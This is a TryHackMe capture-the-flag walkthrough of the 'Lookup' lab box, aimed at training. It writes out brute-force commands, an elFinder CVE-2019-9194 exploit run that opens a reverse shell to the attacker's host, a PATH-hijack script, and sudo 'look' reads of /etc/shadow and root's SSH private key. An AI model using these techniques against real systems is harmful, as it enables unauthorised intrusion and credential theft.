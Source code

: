 # Lookup - TryHackMe Walkthrough

## 🧩 Overview

- **Platform:** TryHackMe
- **Box Name:** Lookup
- **Difficulty:** Easy
- **Date Completed:** 16/07/2025
- **Summary:** Web login brute-force > PHP RCE via vulnerable elFinder > Privilege escalation to user through SUID PATH hijack > Root via sudo abuse of `look` to access SSH private key.

---

## 1. 🔍 Enumeration

### Port Scanning

```bash
nmap -p- --open -sS -n -T4 -vvv 10.10.102.13 -oN full_tcp_scan.txt
```

- Port 22: SSH
- Port 80: HTTP

Follow-up service scan:

```bash
nmap -p 22,80 -sC -sV -n -T4 -vvv 10.10.102.13 -oN targeted_scan.txt
```

- Port 22: OpenSSH 8.2p1 (Ubuntu 4ubuntu0.9)
- Port 80: Apache/2.4.41 (Ubuntu)

---

### Web Enumeration

The IP resolves as `lookup.thm`, which I added to `/etc/hosts`. Visiting the site shows a login form at `/index.php`.

I used `gobuster` to look for additional content:

```bash
gobuster dir -u <target ip> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50 -o gobuster_results.txt -k -r
```

Only `/index.php` appeared relevant.

---

### Login Portal Analysis

Using Burp Suite, I tested login responses. Submitting a known username (`admin`) and a dummy password gives:

```
Wrong password. Please try again.<br>Redirecting in 3 seconds.
```

Trying a non-existent username shows:

```
Wrong username or password. Please try again.<br>Redirecting in 3 seconds.
```

This difference in responses can be used to fuzz for valid usernames.

---

### Username Fuzzing (ffuf)

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \
     -X POST \
     -u http://lookup.thm/login.php \
     -d 'username=FUZZ&password=REDACTED' \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -fr "Wrong username or password"
```

🧠 **Learning:** Spent a long time trying to fuzz usernames with Hydra to no avail. Switched to `ffuf` and got results instantly.

- Valid username found: `jose`

---

### Password Bruteforce (Hydra)

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password" -f -V

```

- Credentials found: `jose:REDACTED`

---

## 2. 💥 Initial Foothold

After logging in, the portal revealed a file manager interface powered by **elFinder v2.1.47**, which is vulnerable to command injection (CVE-2019-9194).

Exploitation was done using this PoC:

https://github.com/hadrian3689/elFinder_2.1.47_php_connector_rce

```bash
python3 elfinder.py -t http://files.lookup.thm/elFinder/ -lh 10.9.0.89 -lp 4305
```

This gave a reverse shell as `www-data`.

---

## 3. 🚀 Privilege Escalation

### User Privilege Escalation – think

In `/home/think/`, `user.txt` was present but unreadable by `www-data`. Searching for SUID binaries revealed `/usr/sbin/pwm`.

```bash
strings pwm
```

The binary:

- Executes the `id` command.
- Parses the username from the output.
- Constructs a path: `/home/<username>/.passwords`
- Attempts to read that file.

Since `id` isn’t invoked with an absolute path, I performed PATH hijacking:

```bash
echo -e '#!/bin/bash\necho "uid=1000(think) gid=1000(think) groups=1000(think)"' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```

Running `pwm` now reads the file `/home/think/.passwords`, which contained a long list of possible passwords.

Bruteforcing with Hydra:

```bash
hydra -l think -P lookup.txt ssh://10.10.102.13
```

- Valid credentials found: `think:REDACTED`
- User flag located at `/home/think/user.txt`

---

### Root Privileges – Sudo Abuse with `look`

Checking `sudo -l` revealed:

```bash
User think may run the following commands:
    (ALL) /usr/bin/look
```

According to GTFOBins, `look` can read files when passed an empty search string:

```bash
sudo look "" /etc/shadow
```

This revealed password hashes. While running a cracker, I also checked `/root/.ssh/id_rsa`:

```bash
sudo look "" /root/.ssh/id_rsa
```

Found a full private SSH key. Saved it, set correct permissions, and logged in as root:

```bash
ssh -i lookup_id root@10.10.87.108
```

Root flag retrieved from `/root/root.txt`.

---

## 📝 Key Learnings

- `ffuf` is significantly more effective for username fuzzing than Hydra in certain cases.
- PATH hijacking with custom scripts is a common vector in CTF-style privilege escalation.
- It’s worth checking SUID binaries with `strings` to infer logic and potential abuse paths.
- CVE research and GitHub PoCs can provide quick paths to initial access.
- GTFOBins is a powerful resource when enumerating sudo permissions.

---


## 🛠️ Tools Used

- `nmap`
- `gobuster`
- `ffuf`
- `hydra`
- `netcat`
- `Burp Suite`
- `python3`
- `GTFOBins`
- `strings`, `chmod`, `export`, `sudo`

---

## ✅ Box Completed: Lookup

🎯 **Goal:** Demonstrated enumeration, exploitation, and both user and root privilege escalation paths using common tools and manual analysis.

📘 **Portfolio Note:** This was a great learning opportunity for chaining multiple low-privilege issues into a full box compromise and reinforces the importance of detail during enumeration.

